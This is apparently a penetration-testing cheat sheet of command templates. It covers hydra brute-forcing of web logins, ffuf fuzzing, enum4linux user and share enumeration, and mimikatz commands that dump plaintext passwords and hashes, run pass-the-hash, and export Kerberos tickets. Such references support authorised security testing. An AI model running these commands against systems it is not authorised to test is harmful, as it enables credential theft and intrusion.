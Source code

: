 - <mark>HTTP POST Form Brute-Forcing</mark>:
```bash
hydra -L [USERNAME_LIST] -P [PASSWORD_LIST] [Domain/IP] http-post-form "/login.php:user=^USER^&password=^PASS^:<error message>" 
```
- <mark>HTTP GET Basic Authorization Brute-Forcing</mark>:
```bash
hydra -L [USERNAME_LIST] -P [PASSWORD_LIST] [TARGET_URL] http-get
```
### ffuf
- <mark>Basic Use</mark>
```bash
# GET param fuzzing, filtering for invalid response size (or whatever)
ffuf -w [wordlist] -u [URL]?FUZZ= -fs 4242
```

### enum4linux
- <mark>Basic Use</mark>
```bash
#Enumerate everything possible
enum4linux -a [TARGET]    
#Enumerate shared directories
enum4linux -S [TARGET]
#Enumerate users using RID Cycling
enum4linux -U [TARGET]
#Enumerate OS information
enum4linux -o [TARGET]
#Use a custom username and password for enumeration
enum4linux -a -u [USERNAME] -p [PASSWORD] [TARGET] 
```
# Credential-Extracting
- <mark>Note</mark>: normally requires Administrator (or higher) privilege to run.
### mimikatz
- <mark>Privilege</mark>
```bash
# get `SeDebugPrivilege` rights (this or Local System rights is required for many Mimikatz commands).
PRIVILEGE::Debug
```
- <mark>token</mark>
```bash
# Attempts to elevate to SYSTEM user privileges
token::elevate
```
- <mark>sekurlsa</mark>
```bash
# Require `SeDebugPrivilege` rights
# Attempts to extract plaintext passwords and password hashes from all available sources.
sekurlsa::logonpasswords
#PtH
sekurlsa::pth /user:[Username] /domain:[Domain_Name] /ntlm:[Hash] /run:"[Command]"

# Show the tickets that are stored in memory by
sekurlsa::tickets

# Export any available TGT/TGS tickets
sekurlsa::tickets /export
```
- <mark>kerberos</mark>
```shell
# Delete any existing Kerberos tickets
kerberos::purge

```